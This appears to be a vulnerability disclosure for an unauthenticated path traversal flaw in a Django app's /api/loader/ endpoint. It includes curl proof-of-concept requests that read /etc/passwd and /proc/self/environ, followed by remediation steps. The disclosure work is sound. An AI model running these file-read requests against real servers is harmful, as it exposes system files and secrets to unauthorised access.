



# Description

Path traversal / arbitrary file read (CWE-22) on the API loader endpoint `GET /api/loader/?file=<filename>`. The `loader()` view in `Api/views.py` joins the user-supplied `file` parameter to a base path and reads the result with no canonicalisation: there is no `realpath()` boundary check and only a thin, incomplete deny-list. Both absolute paths (`/etc/passwd`) and relative traversal (`../../../etc/passwd`) escape the intended directory.

**No authentication is required.** Any anonymous user can read any file readable by the Django process, including `/proc/self/environ`, which leaks internal service URLs and configuration.

# Exploitation

1. Request an absolute path with no login:
   ```
   GET /api/loader/?file=/etc/passwd
   ```
2. Read the process environment to harvest internal config:
   ```
   GET /api/loader/?file=/proc/self/environ
   ```
   reveals `DJANGO_SETTINGS_MODULE`, `OLLAMA_BASE_URL=http://ollama:11434`, container hostname, etc.

# PoC

**Step 1 — read `/etc/passwd` (unauthenticated):**

```bash
curl -s "http://<TARGET>/api/loader/?file=/etc/passwd"
# root:x:0:0:root:/root:/bin/bash
# ...
# appuser:x:1000:1000::/home/appuser:/bin/sh
```



**Step 2 — read the process environment (secrets / internal services):**

```bash
curl -s "http://<TARGET>/api/loader/?file=/proc/self/environ" | tr '\0' '\n'
# DJANGO_SETTINGS_MODULE=djangoWocshack_5.settings.production
# OLLAMA_BASE_URL=http://ollama:11434
# OLLAMA_MODEL=gemma3:1b
# HOSTNAME=0cc8106742ea
```



**Step 3 — relative traversal also works:**

```bash
curl -s "http://<TARGET>/api/loader/?file=../../../etc/passwd"   # same output as Step 1
```



# Risk

| Dimension | Impact |
|-----------|--------|
| Confidentiality | Unauthenticated read of any process-readable file: source code, the SQLite DB, secrets, `/proc` data. |
| Integrity | Indirect — leaked config (e.g. `OLLAMA_BASE_URL`) feeds the SSRF and other chains. |
| Availability | None directly. |

Overall severity: **High** — zero-privilege full file read; reveals the internal Ollama service that the `/banking/webhook/` SSRF can then reach.

# Remediation

1. **Allow-list filenames** (e.g. `^[A-Za-z0-9_-]+\.css$`) and resolve only known CSS IDs.
2. **Strip traversal** with `os.path.basename()`, then **`os.path.realpath()`** the final path and assert it stays inside the intended base directory.
3. **Reject absolute paths and `..`** outright (HTTP 400).
4. **Require authentication** on API endpoints; run the container read-only with `no-new-privileges` and restricted `/proc` access.

# Author
Hackrapovic
